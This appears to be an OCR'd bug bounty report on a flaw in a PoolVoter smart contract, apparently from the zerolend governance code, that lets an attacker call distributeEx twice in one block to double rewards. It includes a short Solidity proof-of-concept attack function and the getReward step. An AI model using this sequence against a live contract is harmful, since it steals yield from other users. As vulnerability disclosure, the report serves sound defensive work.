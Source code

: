 
So we can see that this bug allow the hackers to double the reward get from the protocol. 

# Impacts
# About the severity assessment

This bug allow the hackers to double the reward get from the protocol and thus steal yield from other users. 

This bug is high category "Theft of unclaimed yield"
        
## Proof of concept
#  Proof of concept

Step 1: Wait the reward token is distributed to the PoolVoter contract 
Step 2: Deploy a contract. In this contract have the attack function 

```solidity
function attack() public {


// Step 2: Hackers call with POOL_A has the index of 2 in pool array in PoolVoter contract

PoolVoter.distributeEx(reward_token,2,3); 

// Step 3: Hacker call the function again in the same block. 

PoolVoter.distributeEx(reward_token,2,3); 


} 

```

Step 3: Call getReward to take the reward 
https://github.com/zerolend/governance/blob/main/contracts/voter/gauge/RewardBase.sol#L79 

```solidity
function getReward(
        address account,
        IERC20 token
    ) 
```

It seems that the contract PoolVoter not yet deployed, so I provide the above POC to demonstrate the bug. Please let me know if you need more clarification. 
